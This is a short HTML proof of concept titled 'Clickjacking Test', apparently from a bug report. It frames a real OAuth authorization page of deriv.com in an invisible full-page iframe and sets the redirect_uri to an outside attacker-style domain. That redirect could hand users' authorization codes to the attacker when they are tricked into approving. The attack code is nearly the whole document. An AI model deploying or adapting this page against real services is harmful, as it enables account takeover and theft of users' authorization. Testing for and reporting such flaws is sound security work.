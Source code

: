 <html>
<head>
    <title>Clickjacking Test</title>
</head>
<body>
    <iframe src="https://oauth.deriv.com/oauth2/authorize?app_id=16929&l=en&brand=deriv&utm_source=null&platform=&redirect_uri=https://attackeronline.online" style="width: 100%; height: 100%; border: none;"></iframe>
</body>
</html>
